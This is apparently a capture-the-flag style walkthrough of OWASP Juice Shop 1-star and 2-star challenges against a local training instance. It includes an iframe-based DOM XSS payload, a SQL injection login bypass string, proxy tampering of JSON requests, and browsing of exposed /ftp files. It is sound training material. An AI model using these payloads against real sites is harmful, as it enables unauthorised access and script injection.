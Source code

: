 ## Juice Shop solutions
https://github.com/bkimminich/juice-shop

### 1-star
#### Bonus Payload
- Copy and paste the payload into the search bar:

```html
<iframe width="100%" height="166" scrolling="no" frameborder="no" allow="autoplay" src="https://w.soundcloud.com/player/?url=https%3A//api.soundcloud.com/tracks/771984076&color=%23ff5500&auto_play=true&hide_related=false&show_comments=true&show_user=true&show_reposts=false&show_teaser=true"></iframe>
```

#### Confidential Document
- `http://localhost:3000/#/about`
- `http://localhost:3000/ftp/legal.md`
- `http://localhost:3000/ftp/`
- `http://localhost:3000/ftp/acquisitions.md`

#### DOM XSS
Search for ` <iframe src="javascript:alert(`xss`)">`

#### Error Handling
In login page, enter `'` for username and password.

#### Exposed Metrics
From the prometheus docs `https://prometheus.io/docs/introduction/first_steps/` we can see that we need to go to `http://localhost:3000/metrics`

#### Missing Encoding
- `http://localhost:3000/#/photo-wall`
- The cat's photo isn't appearing.
- If you click the tweet button you see that text upto the first `#` is appearing, therefore we need to encode the `#` to `%23` so that the browser doesn't interpret it as a fragment.
- Change `http://localhost:3000/assets/public/images/uploads/%F0%9F%98%BC-#zatschi-#whoneedsfourlegs-1572600969477.jpg` to `http://localhost:3000/assets/public/images/uploads/%F0%9F%98%BC-%23zatschi-%23whoneedsfourlegs-1572600969477.jpg`

### Outdated Whitelist

- Add an item to your basket and go to payment page.
- Go to sources tabs in your devtools.
- Search for `redirect` in `main-es2015.js`
- You'll find redirect URLs for pages not mentioned in the payment page such as `"./redirect?to=https://blockchain.info/address/1AbKfgvw9psQ41NbLi8kufDQTezwG8DRZm"`.
- Simple visit the redirect URL to solve the challenge.

#### Privacy Policy
- Go to `http://localhost:3000/#/privacy-security/privacy-policy`

#### Repititive Registration
- Register for a user and intercept the requests in a proxy.
- Remove the `passwordRepeat` option in the json request.

#### Score Board
Go to `http://localhost:3000/#/score-board`

#### Zero Stars
- Go to customer feedback and intercept the request.
- Change the `rating` to 0 in the json payload.

### 2-star
#### Login Admin
- Use SQL injection in the login page `'or 1=1--`.

#### Admin Section
- Goto sources `main-es2015.js` and search for admin.
- You'll find references to `administration`.
- Once logged in as admin using SQL injection, go to: `localhost:3000/#/administration`

#### Five-Star Feedback
- Go to the `administration` section and delete any five feedbacks that are present.


